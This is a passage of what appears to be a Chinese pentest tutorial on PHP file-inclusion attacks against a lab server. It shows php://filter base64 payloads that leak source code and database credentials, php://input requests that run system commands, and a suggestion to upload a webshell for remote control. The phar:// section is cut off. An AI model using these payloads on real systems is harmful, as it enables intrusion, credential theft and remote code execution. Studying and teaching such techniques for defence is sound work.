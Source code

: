 php://是一种伪协议，主要开启了一个输入输出流，理解为文件数据传输的一个通道。php中的伪协议常使用的有如下几个：

php://input php://filter phar://

### 二、php://filter

当我们直接包含conn.php文件时，http://192.168.2.128/Security/fileinc.php?filename=common.php

虽然代码已经调用，但是因为其时php文档，被web容器解释，导致页面看不到源码内容。

这时候使用php://将我们想要读取的文件放在数据流中，然后我们通过伪协议的方式读出来

```
php://filter/read/convert.base64-encode/resource=common.php

http://192.168.2.128/Security/fileinc.php?filename=php://filter/read/convert.base64-encode/resource=common.php
```

这段命令的意思就是打开数据流，把conn.php的内容用base64编码方式读出来

我们执行后，在页面上就能看到遗传base64的编码，通过工具解码后就能看到明文源码

![](D:\WEBSecurity\Web\image\phpwp1.png)

获取后的base64数据流可以通过base64转码工具进行获取

![](D:\WEBSecurity\Web\image\phpwp2.png)

https://www.qqxiuzi.cn/bianma/base64.htm在线转码工具

在获取了conn文件中的用户和密码之后，我们可以在冰蝎中在虚拟终端登录数据库

![](D:\WEBSecurity\Web\image\phpwp3.png)

### 三、php://input

此方法需要条件，即开启allow_url_include=On。实际上这相当于一个远程包含的利用。

php://打开文件流后，我们直接在流里面写入我们的恶意代码。此时包含即可执行代码

http://192.168.2.128/Security/fileinc.php?filename=php://input

然后再POST请求中输入恶意代码，执行包含既可实现恶意代码的执行，比如：

```php
<?php phpinfo();?>
<?php system(ifconfig);?>
<?php system('ifconfig');?>//加但隐含可以防止warning
也可以通过该方法上传一个大马，然后继续宁远程控制
```

![](D:\WEBSecurity\Web\image\phpwp.png)

### 四、Phar://

主要是用于再php中对压缩文件格式的读取。这种方式通常是用来配合文件上传漏洞使用，或者进行进阶的phar反序列化攻击
